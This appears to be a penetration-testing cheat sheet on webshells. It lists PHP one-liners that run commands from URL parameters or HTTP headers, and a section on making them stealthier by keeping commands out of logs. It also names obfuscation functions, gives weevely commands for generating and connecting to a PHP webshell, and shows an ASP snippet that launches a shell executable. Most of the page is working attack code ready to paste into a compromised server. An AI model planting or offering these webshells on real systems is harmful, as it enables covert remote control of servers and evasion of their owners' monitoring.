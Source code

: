 # Webshellz



A webshell is a shell that you can access through the web. This is useful for when you have firewalls that filter outgoing traffic on ports other than port 80. As long as you have a webserver, and want it to function, you can't filter our traffic on port 80 \(and 443\). It is also a bit more stealthy than a reverse shell on other ports since the traffic is hidden in the http traffic.

You have access to different kinds of webshells on Kali here:

```text
/usr/share/webshells
```

### PHP <a id="php"></a>

This code can be injected into pages that use php.

```text

# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>
```

You can then call then execute the commands like this:

```text
http://192.168.1.103/index.php?cmd=pwd
```

#### Make it stealthy <a id="make-it-stealthy"></a>

We can make the commands from above a bit more stealthy. Instead of passing the cmds through the url, which will be obvious in logs, we cna pass them through other header-paramters. The use tampterdata or burpsuite to insert the commands. Or just netcat or curl.

```text
<?php system($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
<?php system($_SERVER['HTTP_USER_AGENT'])?>

# I have had to use this one
<?php echo passthru($_SERVER['HTTP_ACCEPT_LANGUAGE']); ?>
```

#### Obfuscation <a id="obfuscation"></a>

The following functions can be used to obfuscate the code.

```text
eval()
assert()
base64()
gzdeflate()
str_rot13()
```

#### Weevely - Incredible tool! <a id="weevely---incredible-tool"></a>

Using weevely we can create php webshells easily.

```text
weevely generate password /root/webshell.php
```

Not we execute it and get a shell in return:

```text
weevely "http://192.168.1.101/webshell.php" password
```

### ASP <a id="asp"></a>

```text
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```


